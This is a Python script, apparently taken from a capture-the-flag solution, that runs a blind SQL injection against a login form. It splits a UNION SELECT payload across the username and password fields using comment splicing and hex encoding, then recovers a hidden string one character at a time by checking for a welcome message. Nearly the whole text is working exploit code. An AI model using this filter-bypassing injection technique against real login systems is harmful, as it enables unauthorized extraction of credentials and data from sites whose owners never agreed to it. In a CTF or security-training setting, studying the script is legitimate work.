 ```


def http_get(payload):
    str_16 = binascii.b2a_hex(payload.encode('utf-8'))
    print(str_16.decode())
    payload = "username=union_373_Tom'%20union%20all%20select%201%2C2%2C0x" + str_16.decode() + "%20%2F*&password=*%2F%20order%20by%203%2C2%2C'1"
    headers = {
        'user-agent': "aaaUnion.373",
        'Content-Type': "application/x-www-form-urlencoded"
    }

    response = requests.request("POST", url, data=payload, headers=headers)

    response.encoding = 'utf-8'

    if response.text.find('组织欢迎你，2!') != -1:
        return True
    else:
        return False


return_str = ''

# # 二分跑法
# 需要运行两次，中间有个特殊字符被过滤了- -
# 第一次：
# return_str = ''
# 第二次
# return_str = '1SCC_'
# while True:
#     temp_return_str = half(return_str)
#     if temp_return_str == '~':
#         break
#
#     return_str += temp_return_str
#     print(return_str)
# # 最后一位需要特殊处理，因为和原文相等了- -
# return_str = return_str[:-1] + chr(ord(return_str[-1]) + 1)

# 顺序跑法 需要请求 N*126 次 但只用运行一次
while True:
    for i in range(0, 127):
        temp_return_str = chr(i)
        if not http_get(return_str + temp_return_str):
            break

    if ord(temp_return_str) == 33:
        break

    return_str += chr(ord(temp_return_str) - 1)
    print(return_str)

print(return_str)
```
